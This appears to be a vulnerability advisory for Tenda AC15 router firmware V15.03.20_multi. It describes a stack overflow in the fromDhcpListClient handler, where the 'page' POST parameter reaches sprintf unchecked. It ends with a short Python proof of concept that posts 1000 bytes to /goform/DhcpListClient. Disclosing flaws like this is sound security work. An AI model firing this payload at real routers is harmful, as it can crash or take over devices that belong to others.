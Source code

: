 ## Overview

- Firmware download website: https://www.tendacn.com/us/download/detail-3851.html

## Affected version

AC15V1.0 V15.03.20_multi

## Vulnerability details

The Tenda AC15V1.0 V15.03.20_multi firmware has a stack overflow vulnerability in the `fromDhcpListClient` function. The `v11` variable receives the `page` parameter from a POST request. The value is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `v11` can trigger this security vulnerability.

![image-20240305235042176](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305235042176.png)

![image-20240314154205741](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314154205741.png)

![image-20240305211125463](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240305211125463.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/DhcpListClient"
payload = b"a"*1000

data = {"page": payload}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240314154223475](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240314154223475.png)
